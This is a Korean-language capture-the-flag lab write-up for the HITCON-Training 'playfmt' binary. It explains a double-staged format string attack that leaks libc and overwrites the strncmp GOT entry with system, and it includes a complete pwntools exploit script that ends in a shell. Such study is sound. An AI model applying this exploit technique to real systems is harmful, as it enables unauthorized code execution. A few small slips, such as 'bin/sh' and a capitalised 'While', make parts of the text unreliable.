 # 문제
***

playfmt 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
playfmt: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=157fb5ec4301a1a1bddebb3c0f79c17305c57693, not stripped
```

취약점이 존재하는 함수

```
int do_fmt()
{
  int result; // eax

  while ( 1 )
  {
    read(0, buf, 0xC8u);
    result = strncmp(buf, "quit", 4u);
    if ( !result )
      break;
    printf(buf);
  }
  return result;
}
```

printf(buf)에 format string bug가 존재한다. 하지만 buf가 stack이 아닌 bss 영역에 위치하고 있다. 따라서 lab7, lab8 처럼 내가 write하고 싶은 영역의 주소를 buf에 넣어도 해당 주소를 참조할 수 없다.

=> double staged format string attack을 이용해야 한다.
1. first stage

스택에 있는 포인터 (스택 내의 주소를 가리키는 포인터)를 이용해서 해당 주소에 내가 덮어쓰고자 하는 주소를 write한다. 

2. second stage 

first stage에서 write한 주소 (스택에 존재)를 참조해서 그 주소에 내가 원하는 값을 덮어쓴다.


## exploit 방법
1. do_fmt 함수를 호출하기 전에 setvbuf를 호출하는데 이 때 인자로 들어간 stdout의 주소가 스택에 존재한다. 이 값을 출력함으로써 libc의 base_addr을 leak할 수 있다. (stdout의 offset은 readelf -s libc를 통해서 찾을 수 있다. 또는 gdb에서 x/a &stdout을 통해서 나온 주소에서 libc_base를 빼면 된다.)

이를 통해 system 함수의 주소를 알 수 있다.

2. 스택에 있는 포인터를 이용해서 스택에 strncmp_got 주소, strncmp_got 주소 +2 값을 write한다. (system 함수의 주소가 0xf7로 시작하기 때문에 %hn을 통해 overwrite하려고 한다.)

3. 2번에서 스택에 write한 주소를 참조해서 strncmp_got 영역에 system의 주소를 overwrite한다. 

4. read 함수에서 buf에 "bin/sh\x00"을 넣어주면 shell을 얻을 수 있다. 

c.f) 이 문제는 esp 값을 잘 조절해줘서 printf를 호출할 때 마다 esp 값이 고정되어 있다. => 이거 원래 모든 바이너리에서 다 스택 정리를 이렇게 해주나? 

그리고 이 문제에서 buf(같은 영역에)에 계속 write를 해주기 때문에 이전에 보낸 문자열 보다 그 다음에 보낸 문자열이 더 짧으면 이전에 보낸 문자열까지 같이 printf한다. 그러면 %n이 이상한 곳을 참조해서 error가 발생하여 프로세스가 종료될 수도 있다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab9/playfmt"

p=process(file_path)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

strcmp_got=0x804a020

p.recvuntil("=\n")
p.recvuntil("=\n")


pay="%8$x" # stdout leak
pay+="%"+str(strcmp_got-8)+"d"+"%6$n"
pay+="%c"*2+"%13$n"+"end"

p.send(pay)

IO_stdout=int(p.recv(8),16)
libc_base=IO_stdout-0x001b2d60
system=libc_base+libc.symbols['system']

time.sleep(20)
p.recvuntil("end")

system=hex(system)
system_high=int(system[2:6],16)
system_low=int(system[6:],16)

pay2="%08x"*8+"%"+str(system_low-64)+"d"+"%hn"+"%08x"*8+"%"+str(system_high-system_low-64)+"d"+"%hn"+"end"

p.send(pay2)

time.sleep(20)
p.recvuntil("end")

p.send("/bin/sh\x00")

p.interactive()
```


# 알게 된 것
***

1. 혁쓰 추측 : 로컬에서 format string bug를 exploit 할 때 해당 프로세스 (pwntools의 process로 실행시킨 것)를 gdb에 attach하고 디버깅 하는 경우 printf를 통해 매우 많은 양을 출력하면 이걸 읽어줘야 프로세스가 멈추지 않고 제대로 실행된다. 출력을 읽어주지 않으니까 출력을 계속 하다가 출력 버퍼가 꽉 차서 더 출력을 하지 못하고 대기하고 있는듯... 


근데 이상한게 gdb에 프로세스를 attach하지 않고 그냥 처음부터 gdb로 프로그램을 디버깅 할 때는 출력을 읽어주지 않아도 프로세스가 멈추지 않고 실행된다. 


=> pwntools의 process 함수가 만든 통신은 출력이 매우 큰 경우에는 출력 버퍼에 있는 것을 읽어들였는지 안 읽어들였는지를 신경 쓰는듯?


이걸 처리하기 위해서 payload 마지막에 "EEEEE" 같은 특정 문자열을 넣어준다. 그 다음 time.sleep(30)을 통해서 해당 문자열이 다 출력될 때 까지 기다린 뒤 recvuntil("EEEEE")를 이용해서 출력한 것을 다 받아준다. recvuntil이 계속 데이터를 축적시키고 있는 놈이라 터질 수도 있기 때문에 아래 코드를 이용하는게 더 좋을 것 같다. 

```
While 'E' not in p.recv(0x1000):
    pass
```


리모트의 경우는 send를 하고 나면 이것에 대해서 따로 신경을 쓰지 않기 때문에 이러한 문제가 발생하지 않는다. 


2. %n은 지금까지 출력한 문자열의 개수를 write하는 것이 아니라 %n이 들어간 printf 내에서 출력한 문자열의 총 개수를 write한다. 

```
printf(“%10c%n”, 1, &count);
printf(“%20c%n”, 1, &count2);
count1 = 10
count2 = 20 
```


3. double staged format string attack의 second stage에서 $플래그를 통해 parameter를 참조할 때 수정된 값을 참조하지 못한다. 즉, second stage에서 %10$n으로 내가 수정한 주소에 overwrite를 하려고 하면 수정한 주소를 참조하는 것이 아니라 수정되기 전에 해당 위치에 있던 값을 참조하여 overwrite를 하게 된다. 


$flag는 $flag로 지정한 포맷 스트링의 값을 미리 가져와 놓고 사용하기 때문에 수정한 값을 가져오지 못하고 수정하기 전의 값을 참조하게 된다.


근데 또 이상한게 제일 마지막에 1개 쓰는 것은 수정한 값을 참조한다. 즉, second stage에서 payload를 %d %s %d %10$n으로 하면 이 때는 수정한 값을 참조한단다...

c.f) send()는 문자열 마지막에 NULL을 추가하지 않는다. (sendline은 "\x0a"를 추가한다.) 


